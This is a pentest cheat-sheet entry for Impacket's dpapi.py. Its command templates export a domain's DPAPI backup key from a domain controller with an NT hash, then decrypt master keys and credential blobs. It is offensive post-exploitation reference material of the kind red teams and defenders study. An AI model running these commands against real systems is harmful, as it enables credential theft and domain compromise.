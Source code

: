 # dpapi (imp)
% impacket-secrets, dpapi
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## desc
```
DAPPI offile decryption tool
```

## dump the domain backup key
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```bash
dpapi.py backupkeys --export -hashes <nt_hash>  -t  <domain_fqdn>/<user|Administrator>@<dc_ip>
```

## identify master key Guid
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```bash
dpapi.py unprotect -file <blob_file>
```

## decrypt master key (creds)
```bash
dpapi.py masterkey -file <master_key_file> -password <password> -sid <user_sid>
```

## decrypt blob (creds)
```bash
dpapi.py unprotect -file <blob_file> -key <decrypted_master_key>
```